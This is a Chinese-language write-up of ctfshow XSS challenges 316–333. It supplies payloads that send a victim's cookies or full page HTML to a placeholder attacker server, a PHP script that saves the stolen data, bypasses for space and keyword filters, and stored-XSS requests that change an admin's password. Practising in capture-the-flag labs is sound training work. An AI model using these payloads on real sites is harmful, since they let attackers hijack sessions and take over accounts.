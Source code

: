 ```yaml
---
title: ctfshow-xss
id: ctfshow-xss
date: 2021-09-04 17:38:33
sidebar_position: 8
---
```


<!-- more -->

xss平台：
[XSS平台-免费XSS平台 (xsshs.cn)](https://xsshs.cn/xss.php?do=login)
[XSS平台 - （支持http/https）XSS Platform](https://xss.pt/xss.php?do=login)

## 316

xss平台直接的payload贴进去就行

也可以用vps来拿：

开启vps的http服务(我用的是kali)：

```sh
service apache2 start
# 关闭用stop
service apache2 stop
```

然后写个php来将flag存在本地里，要注意的是要给tmp目录可写权限，不然是写不进去的

```php
<?php

$content = $_GET[1];
if(isset($content)){
        file_put_contents('tmp/flag.txt',$content);
}else{
        echo 'no date input';
}
```

然后传payload就行：

```html
<script>document.location.href='http://xxx/a.php?1='+document.cookie</script>
```



## 317-319

```html
<body onload="window.location.href='http://xxx/a.php?1='+document.cookie"></body>
```



## 320-326

过滤空格和xss，可以用`/`绕过

```html
<body/onload="window.location.href='http://yours-ip/a.php?1='+document.cookie"></body>
```

## 327

![](https://i.loli.net/2021/09/04/bLjMsCdUBQ3Yryw.png)
还是上面的payload，收件人要填admin来让机器人点击

## 328

登录注册，还有个页面提示只有管理员可以查看各个用户的用户名和密码
那么可以直接拿管理员的cookie，然后修改cookie伪造为管理员登录进行查看

在注册页面的密码处插入xss代码，等管理员点击用户管理页面就能触发存储xss
ps：这里body用不了了--改回script就可以

```html
<script>document.location.href='http://yours-ip/a.php?1='+document.cookie</script>
```



## 329

cookie用不了，不过因为可以执行js，可以爬整个html源码下来

```js
var img = new Image();
img.src = 'http://yours-ip/a.php?1='+document.getElementsByTagName('html')[0].innerHTML;
document.body.append(img);
```

```html
<script src="http://yours-ip/a.js"></script>
```

或者省略点根据html定位只取用户名和密码，也可以遍历定位ctfshow{xxx}都行

```js
document.querySelector('#top > div.layui-container').textContent;
```

## 330

要注意的是这里的插入点是注册的用户名
可以让管理员修改它的密码

```js
<script>window.location.href='http://127.0.0.1/api/change.php?p=123';</script>
```

也可以延续上题的做法继续爬源码
(就会发现表单里的用***加密了
flag出现在admin用户名旁)

## 331

可以在url/js/select.js找到post的js代码，修改一下，如下：

```js
<script>$.ajax({url:'api/change.php',type:'post',data:{p:'123'}});</script>
```

将管理员密码修改登录即可

## 332

让admin给自己转钱：
![](https://i.loli.net/2021/09/04/aoTAX2QfhYdpK3w.png)
再去购买flag

## 333

自己给自己转钱，bp跑一下就好
